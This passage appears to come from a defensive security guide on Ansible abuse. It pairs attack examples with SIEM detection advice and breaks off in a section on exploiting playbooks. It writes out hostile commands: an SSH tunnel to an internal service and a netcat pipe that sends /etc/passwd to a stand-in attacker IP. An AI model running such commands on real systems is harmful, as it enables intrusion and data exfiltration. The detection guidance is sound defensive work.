    - **Example:**
     ```bash
     ansible all -m shell -a "ssh -f -N -L 4444:internal_service:80 attacker@compromised_host"
     ```
     This sets up a tunnel from the compromised host to an internal service, allowing the attacker to access internal resources.

   - **SIEM Detection:**
     - **Monitor for SSH tunneling**: Watch for SSH commands that establish port forwarding, especially those initiated by Ansible.
     - **Track unusual network patterns**: Identify patterns of connections that indicate potential tunneling or unauthorized access to internal services.

### 6. **Extracting Sensitive Data**
   An attacker could use Ansible to extract sensitive data from the target systems and send it to an external location.

   - **Example:**
     ```bash
     ansible all -m shell -a "tar czf - /etc/passwd | nc attacker_ip 4444"
     ```
     This command archives the `/etc/passwd` file and sends it to the attacker's machine via netcat.

   - **SIEM Detection:**
     - **Monitor data exfiltration**: Set up alerts for commands that involve compressing or transferring files, especially when network tools like `nc`, `curl`, or `scp` are used.
     - **Watch for unusual outbound traffic**: Identify large or unexpected data transfers from Ansible-managed nodes to external IP addresses.

### General SIEM Rules to Implement:
- **Monitor Ansible logs**: Regularly review Ansible logs for unusual activity, such as unexpected playbook executions, ad-hoc commands, or module usage.
- **Alert on high-risk module usage**: Pay attention to the use of modules like `shell`, `command`, `copy`, `user`, and `lineinfile`, especially when used in ways that could indicate malicious activity.
- **Track privilege escalation**: Set up alerts for actions that involve privilege changes or the use of sudo/root privileges, particularly those initiated by Ansible.
- **Monitor for new files or directories**: Watch for the creation of new files or directories, especially in system-critical or uncommon locations.

By implementing these SIEM rules, you can improve your chances of detecting and mitigating potential malicious activity conducted through Ansible.


### **Exploiting Playbooks**

Ansible playbooks, while powerful for automation, can also be misused if not properly secured. Here are a few ways that playbooks can be exploited:

#### **A. Misconfigured Playbooks**:
- **Privileged Operations**: If playbooks are written to execute commands as root (`become: true`), an attacker could insert malicious tasks that are run with elevated privileges.
- **Unrestricted Variables**: Using unsanitized variables or allowing external input can lead to command injection or other unintended behaviors.
